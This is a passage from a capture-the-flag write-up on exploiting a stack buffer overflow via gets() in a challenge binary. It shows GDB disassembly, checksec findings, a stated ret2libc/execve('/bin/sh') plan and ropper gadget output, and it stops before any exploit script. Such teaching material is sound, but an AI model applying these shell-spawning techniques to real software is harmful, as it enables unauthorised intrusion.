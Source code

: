 ```r
Reading symbols from chall...(no debugging symbols found)...done.
GEF for linux ready, type `gef' to start, `gef config' to configure
78 commands loaded for GDB 8.1.0.20180409-git using Python engine 3.6
[*] 2 commands could not be loaded, run `gef missing` to know why.
gef➤  info functions 
All defined functions:

Non-debugging symbols:
0x0000000000400470  _init
0x00000000004004a0  puts@plt
0x00000000004004b0  fgets@plt
0x00000000004004c0  gets@plt
0x00000000004004d0  _start
0x0000000000400500  _dl_relocate_static_pie
0x0000000000400510  deregister_tm_clones
0x0000000000400540  register_tm_clones
0x0000000000400580  __do_global_dtors_aux
0x00000000004005b0  frame_dummy
0x00000000004005b7  vulnerable
0x00000000004005d3  main
0x0000000000400630  __libc_csu_init
0x00000000004006a0  __libc_csu_fini
0x00000000004006a4  _fini
gef➤  disas vulnerable 
Dump of assembler code for function vulnerable:
   0x00000000004005b7 <+0>:	push   rbp
   0x00000000004005b8 <+1>:	mov    rbp,rsp
   0x00000000004005bb <+4>:	sub    rsp,0x20
   0x00000000004005bf <+8>:	lea    rax,[rbp-0x20]
   0x00000000004005c3 <+12>:	mov    rdi,rax
   0x00000000004005c6 <+15>:	mov    eax,0x0
   0x00000000004005cb <+20>:	call   0x4004c0 <gets@plt>
   0x00000000004005d0 <+25>:	nop
   0x00000000004005d1 <+26>:	leave  
   0x00000000004005d2 <+27>:	ret    
End of assembler dump.
```

As we have access to the source code, we pretty much know what exactly is going on. We need to find a way to get a shell and the `checksec` shows us we have a non-executable stack and `Partial Relro` which means GOT is overwritable but that's not the scope of this article, so we will keep it out.

---
> We are going to perform `ret2libc` but this time instead of doing `system("/bin/sh")` we are going to do `execve("/bin/sh", 0, 0)`
---

Let's run `ropper` and see what gadgets we can control:-

```r
 d4mianwayne@oracle: /tmp/ctf/pwn1 $ ropper --file chall --search 'pop'
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop

[INFO] File: chall
0x000000000040068c: pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068e: pop r13; pop r14; pop r15; ret; 
0x0000000000400690: pop r14; pop r15; ret; 
0x0000000000400692: pop r15; ret; 
0x00000000004005db: pop rax; ret; 
0x000000000040052b: pop rbp; mov edi, 0x601040; jmp rax; 
0x000000000040068b: pop rbp; pop r12; pop r13; pop r14; pop r15; ret; 
0x000000000040068f: pop rbp; pop r14; pop r15; ret; 
```